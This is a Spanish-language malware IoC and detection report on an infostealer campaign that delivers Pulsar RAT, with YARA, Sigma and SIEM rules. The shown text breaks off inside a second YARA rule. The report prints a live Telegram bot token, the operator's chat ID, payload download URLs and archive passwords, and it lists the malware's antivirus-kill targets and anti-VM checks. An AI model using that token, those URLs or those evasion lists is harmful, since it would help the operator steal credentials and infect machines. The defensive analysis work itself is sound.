

# IoCs y Detección - GMinst4ll 2.03.rar

**Fecha:** 11-13 de junio de 2026  
**Analista:** Análisis forense de malware  
**Documento:** Indicadores de Compromiso y Reglas de Detección

---

## Árbol de IoCs

```mermaid
graph TD
    A[GMinst4ll 2.03.rar] --> B[Hashes]
    A --> C[Archivos]
    A --> D[Registry]
    A --> E[Red]
    A --> F[Plataformas]

    B --> B1[SHA256]
    B --> B2[MD5]
    B --> B3[SHA1]
    B --> B4[ssdeep]

    C --> C1[TREZ_cor 4.52.3.exe]
    C --> C2[max.vbs]
    C --> C3[babuchen.bat]
    C --> C4[rodendron.vbs]
    C --> C5[WinStatChecking.bat]
    C --> C6[appy.exe]

    D --> D1[HKLM Winlogon UserInit]
    D --> D2[Global Mutex]

    E --> E1[Pastebin]
    E --> E2[Dropbox]
    E --> E3[Reddit]
    E --> E4[Telegram]
    E --> E5[GitHub]

    F --> F1[YouTube]
    F --> F2[Tumblr]
    F --> F3[MediaFire]
    F --> F4[Discord]

    style A fill:#ff6b6b
    style B fill:#ffd93d
    style C fill:#ffd93d
    style D fill:#ffa500
    style E fill:#ff6b6b
    style F fill:#ffa500
```



---

## Índice

1. [Hashes](#1-hashes)
2. [Archivos y Rutas](#2-archivos-y-rutas)
3. [Mutex](#3-mutex)
4. [Claves de Registro](#4-claves-de-registro)
5. [URLs, Dominios e IPs](#5-urls-dominios-e-ips)
6. [Artefactos Sensibles de Campaña](#6-artefactos-sensibles-de-campaña)
7. [Regla YARA](#7-regla-yara)
8. [Reglas Sigma](#8-reglas-sigma)
9. [Recomendaciones para EDR/AV](#9-recomendaciones-para-edrav)
10. [Consultas SIEM](#10-consultas-siem)

---

## 1. Hashes



### SHA256

| Tipo | Valor |
|------|-------|
| RAR externo | `d70c31b02f88ad239507c47c9fbde3353b5b93b6892e48bf5ba25322aa667e77` |
| Ejecutable (TREZ_cor 4.52.3.exe) | `a75def5353a7d9cb08949f144bebcdb894650ff75c941d9713eb40433c9d580a` |

### MD5

| Tipo | Valor |
|------|-------|
| RAR externo | `7163f74e08976e4db5b01bc9e19194a5` |

### SHA1

| Tipo | Valor |
|------|-------|
| RAR externo | `c3c9cc6d9836c4297dd43b17472dc4521a7a45e6` |

### Fuzzy Hash (ssdeep)

| Tipo | Valor |
|------|-------|
| RAR externo | `25165824:/6gSAzWmlRkIfEKy7KmUOlYJ/TeeNQULWA1Hnjm:/1SwlRkgFtTe4QUKAxK` |
| Ejecutable | `12582912:yQxpzWCma/PNvOxwvaSsmufpj8gVbiPQfv+1acHej+qRaY+zmmhvJdPCYto/ob/0:yuQaXNKoaHf18gVbiPQn+BHWafVJMy0` |

---

## 2. Archivos y Rutas

### Archivos del Malware

| Nombre | Tamaño | Descripción |
|--------|--------|-------------|
| `GMinst4ll 2.03.rar` | 884,475,081 bytes | Archivo original RAR anidado |
| `TREZ_cor 4.52.3.exe` | ~835 MB | Ejecutable principal |
| `archive.rar` | Variable | RAR interno con contraseña "zoroz" |
| `max.vbs` | Variable | Script VBS para persistencia |
| `PASSWORD - 4204.txt` | 15 bytes | Archivo con contraseña RAR externo |
| `abg.ico` | Variable | Icono del ejecutable |
| `IF IT DOESN'T WORK.pdf` | Variable | PDF señuelo (confirmado desde Tumblr) — autor: "David Thompson" |

### Rutas del Sistema

| Ruta | Descripción |
|------|-------------|
| `%PROGRAMDATA%\SystemSP\SystemSP\` | Directorio de instalación |
| `%PROGRAMDATA%\SystemSP\SystemSP\max.vbs` | Script de persistencia |
| `%PROGRAMDATA%\SystemSP\SystemSP\archive.rar` | Payload secundario |

### Extensiones de Archivos Observadas
- .rar (archivos comprimidos)
- .exe (ejecutable principal)
- .vbs (script de persistencia)
- .ico (iconos)
- .dll (librerías Qt5)
- .json (configuración)

---

## 3. Mutex

| Mutex | Descripción |
|-------|-------------|
| `Global\{TOKEN-EX-}` | Mutex para evitar múltiples instancias |

---

## 4. Claves de Registro

### Persistencia

| Clave | Valor | Descripción |
|-------|-------|-------------|
| `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\UserInit` | `wscript.exe ""` | Persistencia al inicio |

### Rutas de Navegadores (Objetivos de Robo)

| Aplicación | Rutas Típicas |
|------------|---------------|
| Chrome | `%LOCALAPPDATA%\Google\Chrome\User Data\Default\Login Data` |
| Edge | `%LOCALAPPDATA%\Microsoft\Edge\User Data\Default\Login Data` |
| Brave | `%LOCALAPPDATA%\BraveSoftware\Brave-Browser\User Data\Default\Login Data` |
| Vivaldi | `%LOCALAPPDATA%\Vivaldi\User Data\Default\Login Data` |
| Opera | `%APPDATA%\Opera Software\Opera Stable\Login Data` |
| Firefox | `%APPDATA%\Mozilla\Firefox\Profiles\*\logins.json` |

### Wallets Objetivo

| Wallet | Rutas Típicas |
|--------|---------------|
| Metamask | Extensiones de navegador |
| Trust Wallet | `%APPDATA%\Trust Wallet` |
| Atomic | `%APPDATA%\atomic` |

---

## 5. URLs, Dominios e IPs

### URLs C2

| URL | Tipo | Descripción | Estado |
|-----|------|-------------|--------|
| `https://pastebin.com/raw/FgUMQ9vE` | HTTP GET | Token Telegram + Chat ID exfiltración | ✅ Activo |
| `https://pastebin.com/raw/E3s5iTTz` | HTTP GET | URL descarga directa SystemSP.rar | ✅ Activo |
| `https://www.dropbox.com/scl/fi/5awp2xpk4r65t6dz0bmcu/SystemSP.rar?rlkey=p7btu00r5x0gxiqnfafb5py44&st=713ggszx&dl=1` | HTTPS GET | Payload secundario (URL completa con auth) | ✅ Activo |
| `https://www.reddit.com/user/Over_Media6257/comments/1s5bjdo/miks/.json` | HTTPS GET | C2 / Dead drop | ⚠️ 403 Forbidden |
| `https://api.telegram.org/bot7675556882:[TOKEN]/sendDocument` | HTTPS POST | Exfiltración de datos robados | ✅ Bot activo |
| `https://api.telegram.org/bot7675556882:[TOKEN]/getUpdates` | HTTPS GET | Verificación bot | ✅ Activo |
| `https://www.mediafire.com/file/wl15n7ci935nl4a/GMinstall_4.11.rar/file` | HTTPS GET | Distribución (mismo archivo que muestra) | ✅ Activo |

### Dominios e IPs

| Dominio | IPs | Descripción |
|---------|-----|-------------|
| pastebin.com | 172.66.171.73, 104.20.29.150 | Plataforma legítima usada para C2 |
| dropbox.com | 162.125.248.18 | Plataforma legítima para alojar payload |
| reddit.com | 151.101.129.140, 151.101.65.140, 151.101.193.140, 151.101.1.140 | Plataforma legítima usada para C2 |
| api.telegram.org | 149.154.166.110 | API de Telegram para exfiltración |
| telegram.org | 149.154.167.99 | Sitio web de Telegram |

### Artefactos de Red

- **Métodos HTTP:** GET (Pastebin, Reddit), POST (Telegram API)
- **Content-Type:** application/json (Reddit)
- **User-Agent:** Variante de Windows

---

## 6. Artefactos Sensibles de Campaña

### Token de Telegram (Bot)

| Campo | Valor |
|-------|-------|
| Token completo | `7675556882:AAFmXL2ulANf1nvaIiWfB6rSypRdsGFqrtU` |
| Bot ID | 7675556882 |
| Username | buchstys4_bot |
| Nombre | buchar |
| Estado | ✅ Activo (confirmado mediante getMe el 2026-06-11) |
| **Chat ID exfiltración** | **`6820575341`** ← NUEVO (obtenido de Pastebin FgUMQ9vE) |

**Nota Importante:** El token se trata exclusivamente como IoC. No se realizó interacción activa con el bot de Telegram durante el análisis.

**Contexto del Chat ID:**
- El Pastebin `FgUMQ9vE` contiene el token + el Chat ID destino en texto plano
- El malware lee este Pastebin dinámicamente para saber a qué chat enviar los datos robados
- Técnica: "dead drop resolver" — el destino de exfiltración se puede cambiar sin recompilar el malware

### Usuario de Reddit

| Usuario | Descripción |
|---------|-------------|
| Over_Media6257 | Usuario de Reddit usado para alojar configuración C2 |

### Metadatos PDF (Señuelo)

| Campo | Valor |
|-------|-------|
| Autor | David Thompson |
| Keywords | DAGflPA11iY, BAGTfYCSpno |
| Nota | Posibles claves de cifrado o identificadores de campaña |

### Contraseñas RAR

| Nivel | Contraseña |
|-------|------------|
| RAR externo | "4204" |
| RAR interno | "zoroz" |

---

## 7. Regla YARA

```yara
rule GMinst4ll_Stealer {
    meta:
        description = "Detecta GMinst4ll InfoStealer"
        author = "Malware Analyst"
        date = "2026-06-11"
        hash1 = "a75def5353a7d9cb08949f144bebcdb894650ff75c941d9713eb40433c9d580a"
        reference = "Análisis GMinst4ll 2.03.rar"
    
    strings:
        $url1 = "pastebin.com/raw/FgUMQ9vE" nocase
        $url2 = "pastebin.com/raw/E3s5iTTz" nocase
        $url3 = "dropbox.com/scl/fi/5awp2xpk4r65t6dz0bmcu/SystemSP.rar" nocase
        $token = "7675556882:AAFmXL2ulANf1nvaIiWfB6rSypRdsGFqrtU" nocase
        $mutex = "Global\\{TOKEN-EX-}" nocase
        $path1 = "%PROGRAMDATA%\\SystemSP\\SystemSP\\max.vbs" nocase
        $path2 = "TREZ_cor" nocase
        $userinit = "wscript.exe" nocase
    
    condition:
        uint16(0) == 0x5A4D and (
            2 of ($url*) or
            $token or
            $mutex or
            $path1 or
            $path2 or
            $userinit
        )
}
```

### Uso de la Regla

```bash
# Escaneo de archivo
yara GMinst4ll_Stealer.yar archivo_sospechoso.exe

# Escaneo recursivo de directorio
yara -r GMinst4ll_Stealer.yar /ruta/a/escanear/
```

---

## 8. Reglas Sigma

### Sigma: Winlogon UserInit Modification

```yaml
title: GMinst4ll Stealer - Winlogon UserInit Modification
id: 12345678-1234-1234-1234-123456789012
status: experimental
description: Detecta modificación de Winlogon UserInit por GMinst4ll Stealer
author: Malware Analyst
date: 2026-06-11
references:
    - Análisis de Malware GMinst4ll 2.03.rar
logsource:
    product: windows
    service: sysmon
detection:
    selection:
        EventID: 13
        TargetObject: 'HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\UserInit'
        Details|contains: 'wscript.exe'
    condition: selection
falsepositives:
    - Configuración legítima de UserInit (rara)
level: high
tags:
    - attack.persistence
    - attack.t1547.001
```

### Sigma: SystemSP Directory Creation

```yaml
title: GMinst4ll Stealer - SystemSP Directory Creation
id: 12345678-1234-1234-1234-123456789013
status: experimental
description: Detecta creación de archivos en directorio SystemSP
author: Malware Analyst
date: 2026-06-11
logsource:
    product: windows
    service: sysmon
detection:
    selection:
        EventID: 11
        TargetFilename|contains: 'SystemSP'
    condition: selection
falsepositives:
    - Instalación legítima de software con nombre similar
level: medium
tags:
    - attack.persistence
    - attack.defense_evasion
```

### Sigma: Suspicious WScript Execution

```yaml
title: GMinst4ll Stealer - Suspicious WScript Execution
id: 12345678-1234-1234-1234-123456789014
status: experimental
description: Detecta ejecución de wscript.exe desde ubicaciones inusuales
author: Malware Analyst
date: 2026-06-11
logsource:
    product: windows
    service: sysmon
detection:
    selection:
        EventID: 1
        Image: 'C:\Windows\System32\wscript.exe'
        CommandLine|contains: 'max.vbs'
    condition: selection
falsepositives:
    - Scripts legítimos de administración
level: high
tags:
    - attack.execution
    - attack.t1059.005
```

---

## 9. Recomendaciones para EDR/AV

### Bloqueo de Hashes

**SHA256 a bloquear:**
```
d70c31b02f88ad239507c47c9fbde3353b5b93b6892e48bf5ba25322aa667e77
a75def5353a7d9cb08949f144bebcdb894650ff75c941d9713eb40433c9d580a
```

### Bloqueo de Dominios/IPs

**Lista de bloqueo (si es políticamente viable):**
- pastebin.com (o monitorear URLs específicas)
- dropbox.com (o monitorear URLs específicas)
- reddit.com/user/Over_Media6257/
- api.telegram.org/bot7675556882

**IPs a monitorear:**
- 172.66.171.73, 104.20.29.150 (Pastebin)
- 162.125.248.18 (Dropbox)
- 151.101.129.140, 151.101.65.140 (Reddit)
- 149.154.166.110 (Telegram API)

### Detección de Persistencia

**Monitorear clave de registry:**
- Ruta: `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\UserInit`
- Valor original legítimo: `C:\Windows\system32\userinit.exe,`
- Valor malicioso: Contiene `wscript.exe`

**Acción:** Alertar si el valor cambia de la ruta por defecto.

### Detección de Archivos

**Buscar nombres:**
- `TREZ_cor` (ejecutable principal)
- `SystemSP` (directorio)
- `max.vbs` (script de persistencia)
- `archive.rar` (payload secundario)

**Rutas a monitorear:**
- `%PROGRAMDATA%\SystemSP\`
- `%PROGRAMDATA%\SystemSP\SystemSP\`

### Detección de Procesos

**Alertar si:**
- `wscript.exe` ejecuta scripts `.vbs` desde `%PROGRAMDATA%`
- PowerShell se ejecuta con `-Verb RunAs` tras ejecutar archivos sospechosos
- `TREZ_cor` aparece en línea de comandos

### Detección de Red

**Monitorear conexiones a:**
- Pastebin raw URLs (especialmente `/raw/FgUMQ9vE` y `/raw/E3s5iTTz`)
- Dropbox con path `/SystemSP.rar`
- Reddit user `Over_Media6257`
- Telegram API con bot ID `7675556882`

---

## 10. Consultas SIEM

### Splunk

**Modificación de UserInit:**
```spl
index=sysmon EventCode=13 TargetObject="*Winlogon*UserInit" Details="*wscript.exe*"
| stats count by Computer, Details, _time
| eval severity="high"
```

**Creación de archivos SystemSP:**
```spl
index=sysmon EventCode=11 TargetFilename="*SystemSP*"
| stats count by Computer, TargetFilename, _time
```

**Conexiones a dominios C2:**
```spl
index=sysmon EventCode=3 
    (DestinationHostname="*pastebin.com" OR 
     DestinationHostname="*dropbox.com" OR 
     DestinationHostname="*api.telegram.org")
| stats count by Computer, DestinationHostname, DestinationIP
```

### ELK (Elasticsearch)

**Modificación de UserInit:**
```json
{
  "query": {
    "bool": {
      "must": [
        { "match": { "event.code": "13" }},
        { "wildcard": { "registry.path": "*Winlogon*UserInit*" }},
        { "wildcard": { "registry.data.strings": "*wscript.exe*" }}
      ]
    }
  }
}
```

### Microsoft Defender for Endpoint (KQL)

**Modificación de UserInit:**
```kusto
DeviceRegistryEvents
| where RegistryKey contains "Winlogon" and RegistryValue contains "UserInit"
| where RegistryData contains "wscript.exe"
| project Timestamp, DeviceName, RegistryKey, RegistryValue, RegistryData, InitiatingProcessFileName
| extend Severity = "High"
```

**Creación de archivos SystemSP:**
```kusto
DeviceFileEvents
| where FileName contains "SystemSP" or FolderPath contains "SystemSP"
| project Timestamp, DeviceName, FileName, FolderPath, InitiatingProcessFileName
```

**Ejecución de wscript.exe:**
```kusto
DeviceProcessEvents
| where FileName == "wscript.exe"
| where ProcessCommandLine contains "max.vbs" or ProcessCommandLine contains "SystemSP"
| project Timestamp, DeviceName, FileName, ProcessCommandLine, InitiatingProcessFileName
```

---

## Resumen de IoCs

| Categoría | Cantidad | Notas |
|-----------|----------|-------|
| Hashes SHA256 | 2 | |
| Hashes MD5 | 1 | |
| Hashes SHA1 | 1 | |
| Fuzzy Hashes | 2 | |
| Archivos | 7 | +1 PDF señuelo confirmado |
| Rutas | 3 | |
| Mutex | 1 | |
| Claves de Registro | 1 | |
| URLs C2 | 7 | +1 MediaFire distribución |
| Dominios | 4 | |
| IPs | 9 | |
| Tokens | 1 | |
| **Chat ID Telegram** | **1** | **NUEVO: `6820575341`** |
| Reglas YARA | 1 | |
| Reglas Sigma | 3 | |
| Consultas SIEM | 6 | |

### Nuevos IoCs Confirmados (2026-06-11)

| IoC | Tipo | Fuente |
|-----|------|--------|
| `6820575341` | Chat ID Telegram (destino exfiltración) | Pastebin FgUMQ9vE (contenido activo) |
| `@KJL4999S` | Username Telegram del operador | API getChat/getChatMember |
| `IF IT DOESN'T WORK.pdf` | Nombre de archivo PDF señuelo | Tumblr tutorialsfrommax |
| `rlkey=p7btu00r5x0gxiqnfafb5py44` | Clave acceso compartido Dropbox | Pastebin E3s5iTTz |
| Eslovaquia | País de subida MediaFire | Metadatos MediaFire 2026-06-10 23:57 |
| `RPG Maker MZ` | Señuelo actual del vídeo YouTube | Verificación directa okNhSxfa__U |

---

## Nuevos IoCs — Payload Secundario SystemSP.rar (2026-06-11)

### Hashes SystemSP.rar

| Tipo | Hash |
|------|------|
| SHA256 | `A50E078598A08FAA5EC554C36E58CF201F167E5F272B39F5107FFFC6C44369F8` |
| SHA1 | `c5677f9cd5a49b6de71b57025d0db219203d231c` |
| MD5 | `8048F2267B466B76821203E5783C4A01` |
| ETag Dropbox | `1775829442005558d` |

### Archivos Internos de SystemSP.rar

| Nombre | Tamaño | Timestamp | Función Probable |
|--------|--------|-----------|-----------------|
| `max.vbs` | 1,472 B | 2025-11-06 15:45 | Persistencia (VBScript) |
| `babuchen.bat` | 3,689 B | 2025-12-28 14:18 | Desconocida (pendiente análisis) |
| `rodendron.vbs` | 1,873 B | 2026-03-17 18:20 | Desconocida (pendiente análisis) |
| `WinStatChecking.bat` | 2,409 B | 2026-04-10 15:56 | Verificación sistema (posible anti-AV/recon) |

### Hashes Scripts Internos (Análisis Forense VM — 2026-06-11)

| Archivo | SHA256 |
|---------|--------|
| `max.vbs` | `4edbc0f24b9c11875bcbc9dfc628dd47c3f9eea9807750487602d00cdac15707` |
| `babuchen.bat` | `e861568c8c88b45ed8f969e31da8fbf0cc6cc4a8466e255ef21c446178463875` |
| `rodendron.vbs` | `493b1137f016c03f7d0037fa5e190a01aca7dcd05074d36518499b98f706bed4` |
| `WinStatChecking.bat` | `ace44b9955e119a36c6f63ecd6f3f4b5f6f052eeed83bf93fb96b508e9e938f8` |

### Hashes Payloads GitHub (boycots563/wlt56)

| Archivo | SHA256 | MD5 | Tamaño | Tipo |
|---------|--------|-----|--------|------|
| `Windows Compatibility Agent.exe` | `2a867741dd5193e34df41a1af1f9d85e3f7d26287d4810b03b261e9b012c990a` | `825c2a58abd54dbbd1cdfe2148de0950` | 12.4 MB | PE64 Python |
| `Windows Compatibility Agent Host.exe` | `3e686426821ad5f84300717bc3eeaa11810a2e23d9dfef2ea95758a692938bef` | `e530797c58b035f8bdcf8bc0b16bed67` | 8.5 MB | PE64 Python |
| `appy.exe` (repo) | `e5c606aebddf2f6f52d66c1667cd1790ca89e7d49ce206422a8d2375c3d7d176` | `4b47a73113b5de485833cd436ef95625` | 719 KB | PE64 Launcher |
| `beket.rar` | `90a4e3651ce2fd6f7f3808c2c511d1f0c078932e44bea97ee4a32f2e04aecdd6` | `af5f5822aef47cddacd535e984546eb2` | 1.6 MB | RAR5 |
| `appy.exe` (beket.rar) | `5b20cb36abbacc69ee5d0c7008f1ad081db2767625659b4bb8eba6ecc511bd2a` | `d0064d8d5ba9e57d080d706fc9cb9246` | 1.9 MB | **Pulsar RAT v1.6.6.0** PE32 .NET |
| `kamzat.exe` | `4c6284337a4065cb397d02a8a67c460d0f1eee56f6a5af79534521606c695840` | `3b943e50c62e461890fb1c6069e2c41b` | 12.4 MB | PE64 Python |
| `postevak.exe` | `ea9ca99f7fd90071074649b1de5a004362f4aa3265809a26b48fa3b1017c90e2` | `95a7412c0b4e3fbf9ed9aaf31c84d080` | 7.9 MB | PE64 Python 3.13 |

### Pulsar RAT v1.6.6.0 — IoCs Específicos

| IoC | Valor |
|-----|-------|
| TAG build | `8Ewy4tag9i7dw8n5uVKSL` |
| Framework | .NET 4.7.2 |
| Cifrado C2 | **AES-GCM** (nonce 12B + ciphertext + tag 16B) |
| Config cifrada | 1808 bytes (principal) + 736 bytes (secundaria) |
| Nombre de ventana | `Pulsar Client` |
| Wallet clipper | BTC, LTC, ETH, XMR, SOL, DASH, XRP, TRX, BCH (9 monedas) |
| Persistencia Run | `SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\Run` |
| Persistencia RunOnce | `SOFTWARE\WOW6432Node\Microsoft\Windows\CurrentVersion\RunOnce` |
| User-Agent falso 1 | `Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_3) AppleWebKit/537.75.14 ... Safari/7046A194A` |
| User-Agent falso 2 | `Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:76.0) Gecko/20100101 Firefox/76.0` |

### Pulsar RAT — Anti-Evasion (14 checks VM + 10 checks debug)

**Anti-VM:** `AnyRunCheck`, `TriageCheck`, `CheckForQemu`, `CheckForParallels`, `IsSandboxiePresent`, `IsComodoSandboxPresent`, `IsCuckooSandboxPresent`, `IsQihoo360SandboxPresent`, `CheckForBlacklistedNames`, `CheckForVMwareAndVirtualBox`, `CheckForKVM`, `BadVMFilesDetection`, `BadVMProcessNames`, `CheckDevices`, `EmulationTimingCheck`, `PortConnectionAntiVM`, `AVXInstructions`, `RDRANDInstruction`

**Anti-Debug:** `DebuggerIsAttached`, `IsDebuggerPresentCheck`, `BeingDebuggedCheck`, `NtGlobalFlagCheck`, `NtSetDebugFilterStateAntiDebug`, `NtQueryInformationProcessCheck_ProcessDebugFlags`, `NtQueryInformationProcessCheck_ProcessDebugPort`, `NtQueryInformationProcessCheck_ProcessDebugObjectHandle`, `NtCloseAntiDebug_InvalidHandle`, `NtCloseAntiDebug_ProtectedHandle`, `HardwareRegistersBreakpointsDetection`, `FindWindowAntiDebug`, `HideThreadsAntiDebug`

**Archivos VM detectados:** `SbieDll.dll`, `cmdvrt32.dll`, `cmdvrt64.dll`, `cuckoomon.dll`, `VBoxMouse.sys`, `VBoxGuest.sys`, `VBoxSF.sys`, `VBoxVideo.sys`, `vmmouse.sys`, `vboxogl.dll`, `balloon.sys`, `netkvm.sys`, `viofs.sys`, `vioser.sys`

**Procesos VM detectados:** `vboxservice`, `VGAuthService`

**Named pipes VM:** `\\.\pipe\cuckoo`, `\\.\VBoxMiniRdrDN`, `\\.\VBoxGuest`, `\\.\pipe\VBoxTrayIPC`

### Pulsar RAT — Targets de Navegadores/Apps (Kill + Robo sesión)

`chrome.exe`, `firefox.exe`, `msedge.exe`, `opera.exe`, `operagx.exe`, `brave.exe`, `discord.exe`

### Pulsar RAT — IoCs de Red

| Campo | Valor |
|-------|-------|
| Config C2 | Cifrada AES-GCM, no extraible estáticamente |
| Protocolo | TCP con TLS (`serverCertificate`, `AuthenticateAsClient`) |
| Blobs cifrados | 1808B + 736B en heap #US |
| Extracción | ❌ Descartada (GUI VirtualBox no funcional, 2026-06-12) |

### Nuevas Rutas del Sistema (Análisis Forense)

| Ruta | Propósito |
|------|-----------|
| `C:\ProgramData\SystemSP\SystemSP\max.vbs` | Script de persistencia Winlogon |
| `C:\ProgramData\SystemSP\SystemSP\babuchen.bat` | Killer AV |
| `C:\ProgramData\SystemSP\SystemSP\rodendron.vbs` | Descargador GitHub |
| `C:\ProgramData\SystemSP\SystemSP\WinStatChecking.bat` | Bloqueador DNS/hosts |
| `C:\ProgramData\TXT1` | Flag fase 1 (mutex etapa) |
| `C:\ProgramData\TXT2` | Flag fase 2 (mutex global) |
| `%PROGRAMDATA%\WinDate32\WinMainTELE.vbs` | Script de persistencia secundaria |
| `%TEMP%\Windows Compatibility Agent.exe` | Payload descargado desde GitHub |
| `C:\Windows\System32\drivers\etc\hosts.backup` | Backup hosts antes de modificación |
| `%APPDATA%\SubDir\Service Runtime Management Agent.exe` | Ruta persistencia alternativa (PROMOTIO.BAT) |
| `%ProgramData%\flag1_errorlog.txt` | Flag maximusz.bat (mutex Defender exclusions) |

### Nuevas Claves de Registro

| Clave | Valor | Acción |
|-------|-------|--------|
| `HKLM\...\Winlogon\Userinit` | `,wscript.exe "C:\ProgramData\SystemSP\SystemSP\max.vbs"` | Persistencia por inicio de sesión |
| `HKLM\...\Policies\System\EnableLUA` | `0` | Desactiva UAC |
| `HKLM\...\WindowsUpdate\DisableWindowsUpdateAccess` | `1` | Bloquea Windows Update |
| `HKLM\...\WindowsUpdate\AU\NoAutoUpdate` | `1` | Desactiva actualizaciones automáticas |
| `HKLM\...\RunOnceEx\0001\RodendronLoader` | `wscript.exe "%scriptDir%rodendron.vbs"` | Carga rodendron tras reinicio |

### Nuevas Tareas Programadas

| Nombre | Comando | Trigger |
|--------|---------|---------|
| `Runtime Management Agent` | `wscript.exe "%PROGRAMDATA%\WinDate32\WinMainTELE.vbs"` | OnLogon, delay 2min, highest |

### Nuevas URLs C2

| URL | Propósito |
|-----|-----------|
| `https://github.com/boycots563/wlt56/raw/main/Windows%20Compatibility%20Agent.exe` | Descarga payload principal (rodendron.vbs) |
| `https://github.com/boycots563/wlt56/raw/main/kamzat.exe` | Descarga payload alternativo (PROMOTIO.BAT) |
| `https://github.com/boycots563/wlt56` | Repositorio C2 (251 commits, activo) |
| `https://github.com/boycots563` | Perfil GitHub del operador (1 repo público) |

### Servicios AV Parados por babuchen.bat

`Panda Security Service`, `MBAMService`, `Avast Antivirus`, `AvgSvc`, `ekrn` (ESET), `Norton Security`, `McShield` (McAfee), `Sophos`, `Trend Micro`, `Zonelabs`, `F-Secure HIPS`, `GData Antivirus`, `DrWeb`, `ClamWin`

### Claves de Registro Eliminadas por babuchen.bat

`HKLM\SYSTEM\CurrentControlSet\Services\wuauserv`, `UsoSvc`, `BITS`, `WaaSMedicSvc`

### Metadatos del Operador (Telegram)

| Campo | Valor |
|-------|-------|
| Chat ID | `6820575341` |
| Username | `@KJL4999S` |
| Nombre display | `"170 000"` |
| language_code | `en` |
| Tipo cuenta | Usuario privado (no bot) |
| Foto de perfil | Sin foto pública |

---

## Nuevos IoCs — Análisis Dinámico + Estático AES-GCM (2026-06-12)

### Pulsar RAT — Blobs AES-GCM (Config C2 cifrada)

| Campo | Valor |
|-------|-------|
| Blob principal offset | `0x000B9CC8` en `appy.exe` |
| Blob principal tamaño | 1808 bytes |
| Blob principal nonce | `bca1e44534eb958494769c76` |
| Blob principal tag | `e84905f915bd6914efc35750f8beaa99` |
| Blob secundario offset | `0x0006BF6C` en `appy.exe` |
| Blob secundario tamaño | 736 bytes |
| Blob secundario nonce | `a1273390492264e21bc1ff3c` |
| Blob secundario tag | `c6752c9475ec207f8b645de5fceac0f3` |
| Cifrado | AES-GCM, clave generada en runtime por ConfuserEx (seed `0x4D42444B` = "MDBK") |

### Pulsar RAT — Campos internos mapeados (ofuscados)

| Campo ofuscado | Función real |
|----------------|-------------|
| `Field[1497]:FUeRrUAjh9FA` | `EncryptionKey` — clave enviada al servidor C2 en handshake |
| `Field[1500]:L6kE5zXkE8` | `Signature` — certificado del cliente (Base64) |
| `Field[1498]:sfRGNA2Id1TUuxp` | `Tag` — identificador de build del cliente |
| `Field[1484]:YybLbFwp55XUiIKTeq` | `Version` del RAT (1.6.6.0 confirmado) |
| Clase `szgxkqqyqlqtnfcghslo.YGSa8hQFZrbG6u` | Clase principal del cliente RAT (TypeDef RID=116) |
| Método `bRka9Mxr9TWSzm6S22qRIoP0K` (RID=511, RVA=`0x0000BB14`) | Check anti-VM que causa el crash en entorno virtualizado |

### Pulsar RAT — Comportamiento en análisis dinámico (VM aislada)

| Observación | Detalle |
|-------------|---------|
| Exit code | `-532462766` (0xE0434352 — excepción .NET no manejada) |
| EventID Windows | 1026 — `System.MissingMethodException` en thread init |
| Stack trace crash | `bRka9Mxr9TWSzm6S22qRIoP0K` → `<Run>b__13_0` → `ThreadHelper.ThreadStart` |
| Persistencia instalada | **Ninguna** (anti-VM terminó antes) |
| Tráfico de red | **Ninguno** (firewall + crash antes de conectar) |
| Archivos creados | **Ninguno** |
| Tiempo de vida | ~2 segundos antes de crash |
| Snapshot VM | `clean_state` (UUID: `6e4cbb60-b4d7-438a-8b87-b21c00951058`) |

### Pulsar RAT — Strings internos en claro (#US heap, no cifrados)

Cadenas encontradas en el binario que no pasaron por el ofuscador de strings:

| String | Relevancia |
|--------|-----------|
| `Pulsar.Client.Properties.Resources` | Namespace real del RAT |
| `NSS_Init`, `PK11SDR_Decrypt` | Robo de credenciales Firefox (NSS library) |
| `signons.sqlite`, `moz_logins` | Robo credenciales Firefox (DB) |
| `"encrypted_key"` | Extracción clave DPAPI de Chrome |
| `AppData\\Local\\Application Data\\User Data` | Ruta datos Chrome |
| `runas`, `/k START "" "` | UAC bypass / elevación de privilegios |
| `Uninstalling... good bye :-(` | Mensaje desinstalación del RAT |
| `Audio streaming started/stopped` | Módulo de audio (micrófono/altavoces) |
| `ClipboardHandler: Error setting clipboard:` | Módulo clipboard hijacker |
| `Creating zip archive:` | Módulo de exfiltración de archivos |
| `Invalid message length.` | Protocolo TCP C2 con framing de longitud |
| `ClientIdentificationResult` | Clase de respuesta del handshake C2 |

### Pulsar RAT — GMinst4ll extraido (contraseña RAR anidado)

| Campo | Valor |
|-------|-------|
| Ruta en VM | `C:\malware_samples\GMinst4ll_extracted\TREZ_cor 4.52.3.exe` |
| Contraseña RAR externo | `4204` |
| DLLs acompañantes | `core_init.dll`, `engine_core.dll`, `system_bridge.dll`, `client.dll`, `graphics_core.dll`, `mesh_processor.dll`, `physics_core.dll`, `renderer.dll`, `texture_loader.dll`, `fx_processor.dll`, `spatial_audio.dll`, `cloth_sim.dll`, `rigidbody_sim.dll`, `setx86.dll` |

### Actualización tabla resumen IoCs

| Categoría | Antes | Ahora | Nuevos |
|-----------|-------|-------|--------|
| Hashes SHA256 | 2 | 2 | — |
| Blobs AES-GCM (nonce+tag) | 0 | 2 | +2 |
| Campos internos mapeados | 0 | 6 | +6 |
| Strings internos en claro | 0 | 12 | +12 |
| Comportamiento dinámico documentado | 0 | 1 | +1 |
| DLLs de GMinst4ll | 0 | 14 | +14 |

### Nueva regla YARA — Pulsar RAT (blobs AES-GCM)

```yara
rule PulsarRAT_AES_GCM_Config {
    meta:
        description = "Detecta Pulsar RAT v1.6.6.0 por nonces AES-GCM de config C2"
        author = "Malware Analyst"
        date = "2026-06-12"
        hash = "5b20cb36abbacc69ee5d0c7008f1ad081db2767625659b4bb8eba6ecc511bd2a"
        reference = "Analisis estatico appy.exe (beket.rar)"

    strings:
        $nonce1 = { BC A1 E4 45 34 EB 95 84 94 76 9C 76 }
        $nonce2 = { A1 27 33 90 49 22 64 E2 1B C1 FF 3C }
